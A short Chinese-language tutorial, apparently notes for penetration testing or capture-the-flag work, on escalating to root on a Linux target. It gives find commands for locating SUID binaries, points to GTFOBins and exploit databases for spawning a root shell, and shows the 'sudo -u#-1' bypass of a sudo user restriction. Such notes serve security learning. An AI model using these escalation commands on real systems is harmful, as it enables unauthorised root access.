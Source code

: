 # 有时候用普通用户登录目标机后用

# sudo -l

# 发现该用户什么命令都不能sudo

# 解决方法如下

## 先用

```
find / -perm -4000 2>/dev/null | grep '/bin/'

或者

find / -user root -perm -u=s 2>/dev/null


```
[find的使用](https://jhinjax-star.github.io/find%E4%BD%BF%E7%94%A8%E5%8F%8A%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86/)

看看能用什么进程来提权

最好选择位于/usr/local/bin/下的进程

然后就是老朋友GTFOBins或者是漏洞数据库

如果是用GTFOBins的话，选shell类而不再是sudo类，用给出的命令来建立一个新的可交互的shell来突破提权。

如果是用漏洞数据库的话，则搜索对应的软件漏洞，下载exploit脚本并在目标机上执行，有时exploit脚本会抽风，就得自己解析脚本，一步一步按脚本里的命令来执行。

## 有时候输入sudo -l后，会出现下面情况，例如：
```
（ALL；!root) NOPASSWD  /usr/bin/vi   /home/user.txt
```

这种有时候会抽风，明明写着nopasswd，但sudo执行 /usr/bin/vi 时还是需要输入密码

而且使用不了

解决方法：
```
sudo -u#-1 /usr/bin/vi /home/user.txt
```
这里是使用的-u#-1，通过以-1的用户身份来绕过sudo的密码检测

后面一定要接绝对路径
